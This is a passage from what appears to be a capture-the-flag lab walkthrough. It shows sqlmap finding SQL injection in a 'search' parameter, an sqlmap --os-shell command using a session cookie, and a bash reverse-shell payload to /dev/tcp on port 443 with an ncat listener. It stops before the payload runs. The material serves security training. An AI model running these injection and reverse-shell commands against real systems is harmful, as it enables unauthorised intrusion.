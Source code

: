 ```
(...)

[*] starting @ 16:15:04 /2024-09-09/

(...)

[16:15:20] [INFO] GET parameter 'search' appears to be 'PostgreSQL > 8.1 stacked queries (comment)' injectable 
[16:15:20] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[16:15:30] [INFO] GET parameter 'search' appears to be 'PostgreSQL > 8.1 AND time-based blind' injectable 
[16:15:30] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 

(...)
```

The important part is the very last line presented here saying: ```GET parameter 'search' is vulnerable.```

And now back to the official write-up: *The tool confirmed that the target is vulnerable to SQL injection, which is everything we needed to know. We will run the sqlmap once more, where we are going to provide the ```--os-shell flag```, where we will be able to perform command injection:*

```
sqlmap -u 'http://10.129.95.174/dashboard.php?search=test' --cookie="PHPSESSID=7p3jd9cb20tbr7qcf1tac5btef"  --os-shell
```

Here's some of the output from my Kali machine again:

```
(...)

[16:32:35] [INFO] fingerprinting the back-end DBMS operating system
[16:32:37] [INFO] the back-end DBMS operating system is Linux
[16:32:37] [INFO] testing if current user is DBA
[16:32:38] [INFO] retrieved: '1'
[16:32:38] [INFO] going to use 'COPY ... FROM PROGRAM ...' command execution
[16:32:38] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell>
```

*We got the shell, however, it is not very stable & interactive. To make it much stable, we will use the following payload:*

```
bash -c "bash -i >& /dev/tcp/10.10.14.235/443 0>&1"
```

*But first, We will turn on the netcat (or ncat, in my case) listener on port 443:*

```
ncat -lvnp 443
```

*Then we will execute the payload mentioned above and check our listener:*
